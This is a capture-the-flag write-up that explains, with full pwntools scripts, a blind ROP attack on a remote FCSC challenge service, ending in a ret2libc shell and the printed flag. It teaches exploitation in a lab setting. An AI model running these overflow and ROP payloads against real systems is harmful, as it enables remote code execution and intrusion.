

# Blind Date

*Author: Ewaël*

The France CyberSecurity Challenge (FCSC) had some really interesting challenges this year. One of them was a classic blind ROP exploitation but because it was my first one, I was so hyped to solve it that I thought it would be really nice to explain the exploit step by step.

<p align="center">
    
</p>

*A company would like to set up an online service to protect its clients personnal data. Prove them it's not secured enough by reading the `flag.txt` file on their server. They did not share the source code nor the compiled binary. You will have to deal with the remote service only.*

## Entry point

As every in *Capture The Flag* challenges, the goal is to find a flag by abusing a vulnerability. This flag is worth a  certain number of points which increasing with the diffuclty of the challenge. Here we only have a remote service that we can connect to. Let's see how we can abuse it.


It just asks for our name and exits. From there we can imagine 2 possible vulnerabilities: a format string attack using the output with our input and a potential buffer overflow on the name buffer.

### A format string?

The format string vulnerability is a well known vulnerability concerning an unsafe usage of a `printf` function which supports formatting, such as `printf`, `sprintf`, `fprintf`... We will not go into details there because as we will see down below, there are no such vulnerability here, but I highly suggest to check [LiveOverflow video](https://www.youtube.com/watch?v=0WvrSfcdq1I) on the topic to learn more.

The cool part about this vulnerability is that it is very easy to test, we only have to pass some formatting characters as input such as `%x` and check if we can dump the memory. If so then we can conclude that the binary is vulnerable and that the running code must be something like this:

```c
char username[SIZE];
// [...] <--- get input with `scanf` or `gets` or whatever
printf("Thanks ");
printf(username); // <--- unsafe line
printf("\nBye!\n");
```


Erf, sometime you win, sometime you lose, nothing here, the code is safe and must look like:

```c
char username[SIZE];
// [...] <--- get input with `scanf` or `gets` or whatever
printf("Thanks %s\nBye!\n", username); // <--- safe line
```

### More like a buffer overflow...

I expect everyone to know this vulnerability, but a quick remainder is never a bad idea. A buffer overflow occurs when the program stocks a user input without checking if the received data fits in the buffer it went in. If there are no protection such as [canaries](https://en.wikipedia.org/wiki/Buffer_overflow_protection#Canaries) then the attacker can take control of the execution flow and execute arbitrary code. Once again I highly recommend [LiveOverflow video](https://www.youtube.com/watch?v=T03idxny9jE) to get the details.

<p align="center">
    
</p>

Let's begin the recon by incrementing the input size until the binary crashes.

```python
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'

i = 0
while True:
    # connect to the server and wait for prompt
    r = remote('challenges2.france-cybersecurity-challenge.fr', 4008)
    r.recv(timeout=0.1)

    # send the growing buffer
    i += 1
    pld = b'A' * i
    r.send(pld)

    # check output
    output = r.recv(timeout=0.1)
    if output:
        print(output)
    else:
        print(f'no output -> overflow on {i}')
        break
```


Great! Looks like we are on the right way, we even dumped some addresses because the buffer must be uninitialized and `printf` reads until finding a null byte. Here are the addresses we can dump:

```python
#!/usr/bin/env python3

from pwn import *
from Crypto.Util.number import bytes_to_long

context.log_level = 'error'

offsets = [8, 24, 32, 40] # interesting offsets which dump addresses

for i in offsets:
    # connect to the server and wait for prompt
    r = remote('challenges2.france-cybersecurity-challenge.fr', 4008)
    r.recv(timeout=0.1)

    # send our payload to dump the stack
    pld = b'A' * i
    r.send(pld)

    # format addresses so we can read them
    leak1 = r.recv(timeout=0.1).split() # split at space
    leak2 = leak1[-1][leak1[-1].rfind(b'A') + 1:-4][::-1] # we only keep the leaked bytes in little endian
    leak3 = bytes_to_long(leak2) # we convert them into an integer

    addr = leak3
    print(f'leaked address at offset {i} = {hex(addr)}')
```


Those are definitly **x86-64** addresses. Consequently, because the stack buffer overflow happens after 40 bytes, we can deduce that the buffer is 32 bytes big. Indeed we fill the buffer with 32 `A`, then we overwrite `rbp` which is 8 bytes long in **x86-64** and then we can control the execution flow overwriting the `rip` register. We can also see that constant `0x4006cc` address at offset 40 which must be the return address in `rip` that we will overwrite. The fact that this address is constant also proves the [PIE](https://en.wikipedia.org/wiki/Position-independent_code) protection is not enabled.

*Note: we do not exactly overwrite `rip`. We overwrite the return address which is popped into `rip` at the end of the function, but it is easier to just say we overwrite `rip`.*

Nice, we have the entry point! Now what? We can control where to go, but the question is: where do we want to go?

## Blind Return Oriented Programming

Also known as BROP, *Blind Return Oriented Programming* is an exploitation technique we use to do *Return Oriented Programming* (ROP) using only the output of the attacked service, acting like an oracle in cryptography attacks. So, what exactly is [ROP](https://en.wikipedia.org/wiki/Return-oriented_programming)?

### Return Oriented what?

This exploit technique uses *gadgets* to execute precise instructions from the binary and to jump somewhere else to execute some other instructions and so on. A gadget is a sequence of instructions that we can use in order to control registers for example, then returning on an address we control throught the stack.

For instance, this gadget allows the attacker to control `rdi`, which is the first argument in the [x64 calling convention](https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-160).

```asm
pop rdi     ; this pops the following address on the stack into `rdi`
ret         ; we regain execution flow control with the next stack address
```

A more visual example could be:

<p align="center">
    
</p>

Thus if we are able to chain gadgets, creating a *ROP chain*, we have a very powerful exploit defeating both ASLR (*Address Space Layout Randomization*) which prevents the attacker to know where to jump in the *libc*, and NX (*No eXecutable*) which prevents shellcode execution on the stack.

Alright alright, this whole ROP stuff is great. But how do we get our gadgets without having access to the binary? In a classic ROP challenge we can just disassemble the file to find the interesting ones and the address to return on. How is this possible remotely? This is where things get interesting...

### The stop gadget

The first gadget we need is called the *stop gadget*. This gadget is the most important one because it will be the one that confirms us we regained the execution flow control during the attack. It must either return a different string than the expected one or make the program hang up in order to know when we hit this gadget.

Back to our case, we can expect that there is an address in the binary that prints out

```
Hello you.
What is your name ?
>>>
```

and waits for a user input. But we must be careful, let's try to imagine what the code looks like.

```c
char username[32];
puts("Hello you.\nWhat is your name ?\n>>> ");
gets(username); // <- overflow
printf("Thanks %s\nBye!\n", username);
```

If we return on the `puts` line, no problem, we will get the expected string for our stop gadget. But what if the code is a bit different?

```c
int useless;
char username[32];
useless = 667; // useless line, we can imagine something else like a call to a vulnerable function too
puts("Hello you.\nWhat is your name ?\n>>> ");
gets(username); // <- overflow
printf("Thanks %s\nBye!\n", username);
```

Here returning on the `useless` initialization and the `puts` lines BOTH return a valid output for out stop gadget! Thus when we will be searching for other gadgets, expecting the program to return our `Hello you...` sequence ONLY when it hits the stop gadget, there will be false positives corresponding to other addresses yelling the same sequence, as the `useless` initialization line.

So, you must be wondering, how do we deal with it? The solution is actually really simple: instead of stopping when we find a valid address returning our *reference* (i.e. the sequence we associated with the stop gadget), we generate a list of false positives so we can avoid them later and keep only one, the first one for instance, to make it our stop gadget.

And because I feel like I am over-complicating things, let's see how it really works:

```python
#!/usr/bin/env python3

from pwn import *

def getStopGadget(base_addr, ref):
    L = [] # where we stock found addresses
    start = 0x500
    end = start + 0x300

    for i in range(start, end):
        # connect to server
        context.log_level='error'
        r = remote('challenges2.france-cybersecurity-challenge.fr', 4008)
        context.log_level='info'

        try:
            # build payload
            addr = base_addr + i
            log.info(f'trying addr = {hex(addr)}')
            pld = b'c' * 40     # fill buffer
            pld += p64(addr)    # rip

            # send and check output for the reference
            r.recv(timeout=0.1)
            r.send(pld)
            res = r.recv(timeout=0.1)
            if ref in res:
                L.append(addr) # this address is a stop gadget

        # nothing, close socket and continue
        except:
            pass
        context.log_level='error'
        r.close()
        context.log_level='info'

    return L # return a list of addresses

# known constants
ref = b'Hello you.\nWhat is your name ?\n>>> '
base_addr = 0x400000

stop_gadgets = getStopGadget(base_addr, ref) # generate a list of false positives
stop_gadget = stop_gadgets[0]
log.success(f'stop_gadget = {hex(stop_gadget)}')
log.success(f'stop_gadgets = {[hex(i) for i in stop_gadgets]}')
```



Success! We now have a way to know exactly when we successfully control `rip`. So, what's next?

### The BROP gadget

Our goal is to get a shell on the server. To do so, we need a way to leak a libc address because the ASLR is on as we saw when leaking addresses. Once we have a leak, we can find the libc version and get the offsets for both the `/bin/sh` string AND the `system` function, but I will explain this later. Right now the only thing we should worry about is: how to control registers? In facts we only want to control `rdi` as this register is the first argument in the calling convention. However we still have no clue about what gadgets we can find in the binary... Do we?

Lucky us, there is a very special gadget that almost all binaries have in common. It is located at the end of `__libc_csu_init` and, as we will see, it is VERY useful...

```asm
[...]
40126a:       5b                      pop    rbx
40126b:       5d                      pop    rbp
40126c:       41 5c                   pop    r12
40126e:       41 5d                   pop    r13
401270:       41 5e                   pop    r14
401272:       41 5f                   pop    r15
401274:       c3                      ret
```

*Note: those are fake addresses to illustrate the gadget, those have nothing to do with our challenge.*

Great isn't it? This gadget is very easy to spot as it pops 6 values from the stack. But where is our `pop rdi; ret`? Have a better look... What happens if we jump on the address `0x401273`? The executed opcodes will be

```
401273:     5f      pop    rdi
401274:     c3      ret
```

A gadget inside a gadget, binary exploitation is awesome.

<p align="center">
    
</p>

Cool, let's find this magic gadget. To do so, we overwite `rip` with the address we are incrementing, followed with 6 trash addresses that should be popped into `rbx`, `rbp`, `r12`, `r13`, `r14` and `r15` if the address is the right one. Then we add our stop gadget that will be loaded into `rip` on the `ret` instruction, leading the output to be our reference string!

```python
#!/usr/bin/env python3

from pwn import *

def getBropGadget(stop_gadget, false_positives):
    # iterate over the whole ELF
    start = 0
    end = start + 0x1000
    L = []

    for i in range(start, end):
        # connect to server
        context.log_level='error'
        r = remote('challenges2.france-cybersecurity-challenge.fr', 4008)
        context.log_level='info'

        try:
            # build payload
            addr = base_addr + i
            pld = b'c' * 40             # fill buffer
            pld += p64(addr)            # overwrite `rip` with gadget
            pld += p64(0) * 6           # 6 addresses popped into registers
            pld += p64(stop_gadget)     # regain exec flow control with the `ret`

            # send payload and receive response
            log.info(f'trying addr = {hex(addr)}')
            r.recv(timeout=0.1)
            r.send(pld)
            res = r.recv(timeout=0.1)

            if ref in res:
                # /!\ be careful with false positives /!\
                if addr not in false_positives:
                    L.append(addr)

        # nothing found, close socket and continue
        except:
            pass
        context.log_level='error'
        r.close()
        context.log_level='info'

    # return found gadgets
    return L

# known constants from earlier steps
ref = b'Hello you.\nWhat is your name ?\n>>> '
base_addr = 0x400000
stop_gadgets = [0x400560, 0x400562, 0x400563, 0x400565, 0x400566, 0x400567,
        0x400569, 0x40056d, 0x40056e, 0x40056f, 0x400570, 0x400576, 0x400577,
        0x4006b4, 0x4006b5, 0x4006b6, 0x4006b8, 0x40073b]
stop_gadget = 0x400560

brop_gadgets = getBropGadget(stop_gadget, stop_gadgets)
log.success(f'brop_gadgets = {[hex(i) for i in brop_gadgets]}')
```

As you see we also avoid the address we're searching for to be one of the false positives we found earlier. Indeed, because this address is our `rip` value, if we jump on a location that directly prints out our reference, we will have no idea that we never popped anything and that we just fell in a stupid rabbit hole.


Again we prefer to be sure we don't stop on the first one we find. There must still be a false positive for a reason we do not know, but having 2 candidates is not a problem as we will get rid of the one that does not work on the next step: finding a way to print out everything we want.

### Finding puts PLT

Now that we can control the argument of any function, we will try to find `puts` PLT (*Procedure Linkage Table*) in order to leak the whole binary. The goal is to leak addresses from the GOT (*Global Offset Table*) in the libc to retrieve what we need for our final ROP chain. I assume that everyone knows how the relocation system works, but you have a quick remainder [here](https://www.youtube.com/watch?v=kUk5pw4w0h4).

As always, we will iterate over the ELF addresses range to find the right one. We need an output we can control to check if the `puts` was correctly called, such as our `pop rdi; ret` sequence: `\x5f\xc3`. We will do this for every possible BROP gadget we found until we get the correct one.

```python
#!/usr/bin/env python3

from pwn import *

def getPutsAddr(stop_gadget, pop_rdi):
    # iterate over the whole ELF
    start = 0x0
    end = start + 0x1000

    for i in range(start, end):
        # connect to server
        context.log_level='error'
        r = remote('challenges2.france-cybersecurity-challenge.fr', 4008)
        context.log_level='info'

        try:
            # build payload
            addr = 0x400000 + i
            pld = b'c' * 40         # fill buffer
            pld += p64(pop_rdi)     # load `pop rdi; ret` opcodes in `rdi`
            pld += p64(pop_rdi)     # puts arg = '\x5f\xc3'
            pld += p64(addr)        # puts addr
            pld += p64(stop_gadget) # stop gadget

            # send payload and receive response
            log.info(f'getPutsAddr({hex(stop_gadget)}, {hex(pop_rdi)}) -> trying addr = {hex(addr)}')
            r.recv(timeout=0.1)
            r.send(pld)
            res = r.recv(timeout=0.1)
            if b'\x5f' in res:
                return addr

        # nothing found, close socket and continue
        except:
            pass
        context.log_level='error'
        r.close()
        context.log_level='info'

    # fail, not the right gadget
    return None

# known constants from earlier steps
ref = b'Hello you.\nWhat is your name ?\n>>> '
base_addr = 0x400000
stop_gadgets = [0x400560, 0x400562, 0x400563, 0x400565, 0x400566, 0x400567,
        0x400569, 0x40056d, 0x40056e, 0x40056f, 0x400570, 0x400576, 0x400577,
        0x4006b4, 0x4006b5, 0x4006b6, 0x4006b8, 0x40073b]
stop_gadget = 0x400560
brop_gadgets = [0x4005ee, 0x40073a]

for brop_gadget in brop_gadgets: # we iterate over possible BROP gadgets
    brop_gadget += 0x9 # offset to `pop rdi; ret`
    log.info(f'trying brop_gadget = {hex(brop_gadget)}')
    puts_addr = getPutsAddr(stop_gadget, brop_gadget)
    if puts_addr: # success
        log.success(f'brop_gadget = {hex(brop_gadget)}')
        log.success(f'puts_addr = {hex(puts_addr)}')
        break
```


We are doing well! This was the hardest part as we can now print whatever we want! Let's dump the whole binary to find where is the GOT.

### Leaking the binary

This part is actually pretty simple. We will just iterate on the ELF addresses and call `puts` everytime. Then we just parse the output to get the leak, and if nothing is printed then it just means there is a null byte at this address.

```python
#!/usr/bin/env python3

from pwn import *

def leakAddr(pop_rdi, puts_plt, leak_addr, stop_gadget):
    # connect to server
    context.log_level='error'
    r = remote('challenges2.france-cybersecurity-challenge.fr', 4008)
    context.log_level='info'
    log.info(f'leakAddr({hex(leak_addr)})')

    # build payload
    pld = b'a' * 40                         # fill buffer
    pld += p64(pop_rdi) + p64(leak_addr)    # load addr we want to leak in `rdi`
    pld += p64(puts_plt)                    # puts addr with the arg we control
    pld += p64(stop_gadget)                 # stop gadget

    # send payload
    r.recv(timeout=0.1)
    r.send(pld)

    # if no more output
    try:
        rec = r.recv()
    except:
        return None

    data = b'\x00'
    try:
        data = rec[rec.index(b'@')+1:rec.index(b'\n' + ref)] # parse output to get the leak
    except: # null byte
        pass

    # close socket and return the leak
    context.log_level='error'
    r.close()
    context.log_level='info'
    return data if data else b'\x00'

# known constants from earlier steps
ref = b'Hello you.\nWhat is your name ?\n>>> '
base_addr = 0x400000
stop_gadgets = [0x400560, 0x400562, 0x400563, 0x400565, 0x400566, 0x400567,
        0x400569, 0x40056d, 0x40056e, 0x40056f, 0x400570, 0x400576, 0x400577,
        0x4006b4, 0x4006b5, 0x4006b6, 0x4006b8, 0x40073b]
stop_gadget = 0x400560
brop_gadgets = [0x4005ee, 0x40073a]
pop_rdi = 0x400743
puts_plt = 0x4004f5

# lets dump the whole binary from 0x400000 too 0x401000
binary = b''
leak_addr = base_addr
while leak_addr < base_addr + 0x1000:
    data = leakAddr(pop_rdi, puts_plt, leak_addr, stop_gadget) # the actual leak
    # if no output anymore
    if not data:
        break
    leak_addr += len(data)
    binary += data

# save the result
f = open('binary', 'wb')
f.write(binary)
f.close()
```


That was quick, and boom, there we have! The binary of the remote service! Are you not entertained?

```
$ file binary 
binary: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, missing section headers
```

### Getting a GOT address

Then we can load it in [Ghidra](https://ghidra-sre.org) to get all the informations we need. The first thing we can notice is that we were not THAT far from the reality when trying to reconstitute the code ourselves:

<p align="center">
    
</p>

<p align="center">
    
</p>

Of course I renamed every functions myself based on deductions. So, we now need a GOT address to leak, like the `puts` one as we know it is called at least once before the leak so the relocation has been done.

<p align="center">
    
</p>

Here it is: `0x600fc8` is the GOT address of `puts`! We can now leak it and build our final payload!

### ret2libc - the final strike

So, first we need to leak the libc address at the GOT address we just found. As we know that we're leaking `puts` GOT entry, we can then deduce the libc version using [this awesome tool](https://libc.blukat.me). Easy right?

Yes, but be careful. In order to have a leak we need a way to flush `stdout`. And if we make the binary crash then we will never the output of `puts`. But now that we have `main` address with Ghidra, we can easily go back at the beginning, forcing a new execution of `puts` with the reference string, thus flushing `stdout`.

```python
#!/usr/bin/env python3

from pwn import *
from Crypto.Util.number import bytes_to_long

# known constants we need
ref = b'Hello you.\nWhat is your name ?\n>>> '
pop_rdi = 0x400743
puts_plt = 0x4004f5
puts_got = 0x600fc8
main = 0x4006b4

# connect to server
r = remote('challenges2.france-cybersecurity-challenge.fr', 4008)

# build payload
pld = b'a' * 40                         # fill buffer
pld += p64(pop_rdi) + p64(puts_got)     # load puts got entry to leak it
pld += p64(puts_plt)                    # puts(puts_got)
pld += p64(main)                        # return on `main`

# send payload
r.recv(timeout=0.1)
r.send(pld)
rec = r.recv()

# parse the leaked address
libc_leak = bytes_to_long(rec[rec.index(b'@')+1:rec.index(b'\n' + ref)][::-1])
log.success(f'libc_leak = {hex(libc_leak)}')
```


It works! Why do we always have the same 3 last digits? Because the libc base address is always aligned on `0x1000` and the offsets inside the libc are the always same, and this is precisely why we can deduce the libc version:

<p align="center">
    
</p>

We already know that we have a 64 bits binary, so no doubts about which library to download to automate the search of the offsets we need. Because ASLR is on, we need to both leak the libc address and send our final exploit in the same execution, which is easy because we already go back at `main` after the leak, so we can send a new payload again!

```python
#!/usr/bin/env python3

from pwn import *
from Crypto.Util.number import bytes_to_long

# known constants we need
ref = b'Hello you.\nWhat is your name ?\n>>> '
pop_rdi = 0x400743
puts_plt = 0x4004f5
puts_got = 0x600fc8
main = 0x4006b4

# connect to server
r = remote('challenges2.france-cybersecurity-challenge.fr', 4008)

# build payload
pld = b'a' * 40                         # fill buffer
pld += p64(pop_rdi) + p64(puts_got)     # load puts got entry to leak it
pld += p64(puts_plt)                    # puts(puts_got)
pld += p64(main)                        # return on `main`

# send payload
r.recv(timeout=0.1)
r.send(pld)
rec = r.recv()

# parse the leaked address
libc_leak = bytes_to_long(rec[rec.index(b'@')+1:rec.index(b'\n' + ref)][::-1])
log.success(f'libc_leak = {hex(libc_leak)}')

# resolve offets with the leak
libc = ELF('src/libc6_2.19-18_deb8u10_amd64.so')
libc_base = libc_leak - libc.sym['puts']
system = libc_base + libc.sym['system']
binsh = libc_base + next(libc.search(b'/bin/sh'))

# final payload - fatality
pld = b'a' * 40                     # fill buffer
pld += p64(pop_rdi) + p64(binsh)    # load `/bin/sh` ptr in `rdi`
pld += p64(system)                  # system("/bin/sh")

# enjoy the shell :)
r.send(pld)
r.interactive()
r.close()
```


Boom! We have our shell and we can read the flag! What a journey... Let's see the whole exploit before we conclude.

## The full exploit

I commented function calls to avoid waiting time during gadgets search.

```python
#!/usr/bin/env python3

# nc challenges2.france-cybersecurity-challenge.fr 4008

# documentation on BROP:
# https://www.dailysecurity.fr/blind-rop-arm-securevault-writeup
# https://blog.acolyer.org/2016/06/22/hacking-blind
# https://0xswitch.fr/CTF/ecw-2020-pwn-zatoishi
# https://wiki.x10sec.org/pwn/linux/stackoverflow/medium-rop/#blind-rop

from pwn import *
from Crypto.Util.number import bytes_to_long
import os

def leakAddr():
    c = b'a'
    pld = c * 8 # starts with 0x7f and ends with a37 -> 0x7f2fd6d2ca37 - libc
    pld = c * 24 # starts with 0x7ff and end with 0 -> 0x7fff753ff490 - stack
    pld = c * 32 # starts with 0x7ff and end with 0 -> 0x7ffc1b9b1330 - stack
    pld = c * 40 # addr = 0x4006cc

    # connect to the server and send payload
    r = remote('challenges2.france-cybersecurity-challenge.fr', 4008)
    r.recv(timeout=0.1)
    r.send(pld)
    leaks = r.recv(timeout=0.1).split()

    # format address so we can read it
    bye = leaks[-1][leaks[-1].rfind(c) + 1:-4][::-1]
    l = []
    for i in range(0, len(bye), 6):
        l.append(bytes_to_long(bye[i:i + 6]))
    return l[0]

def getStopGadget(base_addr, ref):
    L = [] # where we stock found addresses
    start = 0x500
    end = start + 0x300

    for i in range(start, end):
        # connect to server
        context.log_level='error'
        r = remote('challenges2.france-cybersecurity-challenge.fr', 4008)
        context.log_level='info'

        try:
            # build payload
            addr = base_addr + i
            log.info(f'trying addr = {hex(addr)}')
            pld = b'c' * 40     # fill buffer
            pld += p64(addr)    # rip

            # send and check output for the reference
            r.recv(timeout=0.1)
            r.send(pld)
            res = r.recv(timeout=0.1)
            if ref in res:
                L.append(addr) # this address is a stop gadget

        # nothing, close socket and continue
        except:
            pass
        context.log_level='error'
        r.close()
        context.log_level='info'

    return L # return a list of addresses

def getBropGadget(stop_gadget, false_positives):
    # iterate over the whole ELF
    start = 0
    end = start + 0x1000
    L = []

    for i in range(start, end):
        # connect to server
        context.log_level='error'
        r = remote('challenges2.france-cybersecurity-challenge.fr', 4008)
        context.log_level='info'

        try:
            # build payload
            addr = base_addr + i
            pld = b'c' * 40             # fill buffer
            pld += p64(addr)            # overwrite `rip` with gadget
            pld += p64(0) * 6           # 6 addresses popped into registers
            pld += p64(stop_gadget)     # regain exec flow control with the `ret`

            # send payload and receive response
            log.info(f'trying addr = {hex(addr)}')
            r.recv(timeout=0.1)
            r.send(pld)
            res = r.recv(timeout=0.1)

            if ref in res:
                # /!\ be careful with false positives /!\
                if addr not in false_positives:
                    L.append(addr)

        # nothing found, close socket and continue
        except:
            pass
        context.log_level='error'
        r.close()
        context.log_level='info'

    # return found gadgets
    return L

def getPutsAddr(stop_gadget, pop_rdi):
    # iterate over the whole ELF
    start = 0x0
    end = start + 0x1000

    for i in range(start, end):
        # connect to server
        context.log_level='error'
        r = remote('challenges2.france-cybersecurity-challenge.fr', 4008)
        context.log_level='info'

        try:
            # build payload
            addr = 0x400000 + i
            pld = b'c' * 40         # fill buffer
            pld += p64(pop_rdi)     # load `pop rdi; ret` opcodes in `rdi`
            pld += p64(pop_rdi)     # puts arg = '\x5f\xc3'
            pld += p64(addr)        # puts addr
            pld += p64(stop_gadget) # stop gadget

            # send payload and receive response
            log.info(f'getPutsAddr({hex(stop_gadget)}, {hex(pop_rdi)}) -> trying addr = {hex(addr)}')
            r.recv(timeout=0.1)
            r.send(pld)
            res = r.recv(timeout=0.1)
            if b'\x5f\x3c' in res:
                return addr

        # nothing found, close socket and continue
        except:
            pass
        context.log_level='error'
        r.close()
        context.log_level='info'

    # fail, not the right gadget
    return None

def leakAddr(pop_rdi, puts_plt, leak_addr, stop_gadget):
    # connect to server
    context.log_level='error'
    r = remote('challenges2.france-cybersecurity-challenge.fr', 4008)
    context.log_level='info'
    log.info(f'leakAddr({hex(leak_addr)})')

    # build payload
    pld = b'a' * 40                         # fill buffer
    pld += p64(pop_rdi) + p64(leak_addr)    # load addr we want to leak in `rdi`
    pld += p64(puts_plt)                    # puts addr with the arg we control
    pld += p64(stop_gadget)                 # stop gadget

    # send payload
    r.recv(timeout=0.1)
    r.send(pld)

    # if no more output
    try:
        rec = r.recv()
    except:
        return None

    data = b'\x00'
    try:
        data = rec[rec.index(b'@')+1:rec.index(b'\n' + ref)] # parse output to get the leak
    except: # null byte
        pass

    # close socket and return the leak
    context.log_level='error'
    r.close()
    context.log_level='info'
    return data if data else b'\x00'

ref = b'Hello you.\nWhat is your name ?\n>>> '
base_addr = 0x400000

#leak = leakAddr()
leak = 0x4006cc
log.success(f'leaked addr = {hex(leak)}')

#stop_gadgets = getStopGadget(leak) # generate a list of false positives
#stop_gadget = stop_gadgets[0]
stop_gadgets = [0x400560, 0x400562, 0x400563, 0x400565, 0x400566, 0x400567,
        0x400569, 0x40056d, 0x40056e, 0x40056f, 0x400570, 0x400576, 0x400577,
        0x4006b4, 0x4006b5, 0x4006b6, 0x4006b8, 0x40073b]
stop_gadget = 0x400560
log.success(f'stop_gadget = {hex(stop_gadget)}')
log.success(f'stop_gadgets = {[hex(i) for i in stop_gadgets]}')

#brop_gadgets = getBropGadget(stop_gadget, stop_gadgets)
brop_gadgets = [0x4005ee, 0x40073a]
log.success(f'brop_gadgets = {[hex(i) for i in brop_gadgets]}')

#for brop_gadget in brop_gadgets:
#    brop_gadget += 0x9
#    log.info(f'trying brop_gadget = {hex(brop_gadget)}')
#    puts_addr = getPutsAddr(stop_gadget, brop_gadget)
#    if puts_addr:
#        log.success(f'brop_gadget = {hex(brop_gadget)}')
#        log.success(f'puts_addr = {hex(puts_addr)}')
#        break
pop_rdi = 0x400743
puts_plt = 0x4004f5
log.success(f'pop_rdi = {hex(pop_rdi)}')
log.success(f'puts_plt = {hex(puts_plt)}')

# lets dump the whole binary from 0x400000 too 0x401000
#binary = b''
#leak_addr = base_addr
#while leak_addr < base_addr + 0x1000:
#    data = leakAddr(pop_rdi, puts_plt, leak_addr, stop_gadget)
#    leak_addr += len(data)
#    binary += data
#f = open('binary', 'wb')
#f.write(binary)
#f.close()

# ghidra as binary -> rebase then dissas -> find puts
# entry point at 0x400550
# qword ptr [DAT_00600fc8]
puts_got = 0x600fc8
vuln = 0x400656
main = 0x4006b4
log.success(f'puts_got = {hex(puts_got)}')
log.success(f'vuln = {hex(vuln)}')
log.success(f'main = {hex(main)}')

# ret2libc
r = remote('challenges2.france-cybersecurity-challenge.fr', 4008)

pld = b'a' * 40
pld += p64(pop_rdi) + p64(puts_got)
pld += p64(puts_plt)
pld += p64(main)

r.recv(timeout=0.1)
r.send(pld)
rec = r.recv()
libc_leak = bytes_to_long(rec[rec.index(b'@')+1:rec.index(b'\n' + ref)][::-1])
log.success(f'libc_leak = {hex(libc_leak)}')

libc = ELF('src/libc6_2.19-18_deb8u10_amd64.so')
libc_base = libc_leak - libc.sym['puts']
system = libc_base + libc.sym['system']
binsh = libc_base + next(libc.search(b'/bin/sh'))

pld = b'a' * 40
pld += p64(pop_rdi) + p64(binsh)
pld += p64(system)
pld += p64(stop_gadget)

r.send(pld)
r.interactive()
r.close()

# FCSC{3bf7861167a72f521dd70f704d471bf2be7586b635b40d3e5d50b989dc010f28}
```


## Conclusion

This by far one the most exciting challenge I've ever done. I know this is just a classic blind ROP execution but that was my first ever and it's definitly worth the try. I can't thank \J (also known as Cryptanalyse) enough for his crazy challenges that make everyone better every year.

I hope this writeup was clear, I tried to make it as detailed as possible for beginners too, see you next year!

```
FCSC{3bf7861167a72f521dd70f704d471bf2be7586b635b40d3e5d50b989dc010f28}
```

## To go further...

* Image [stack buffer overflow](https://zerobone.net/assets/img/blog/call-stack-buffer-overflow-tmb.jpg)
* Image [ROP](https://bannedit.github.io/resources/rop.png)
* Image [BROP gadget](https://raw.githubusercontent.com/nush-osi-layer-8/pwn/master/brop/images/brop_gadget.png)
* Writeup [ECSC 2019 ARM BROP by Geluchat](https://www.dailysecurity.fr/blind-rop-arm-securevault-writeup)
* Writeup [ECW 2020 BROP by Hackira](https://0xswitch.fr/CTF/ecw-2020-pwn-zatoishi)
* Pwn article on BROP [CTF Wiki](https://wiki.x10sec.org/pwn/linux/stackoverflow/medium-rop/#blind-rop)

~ Ewaël
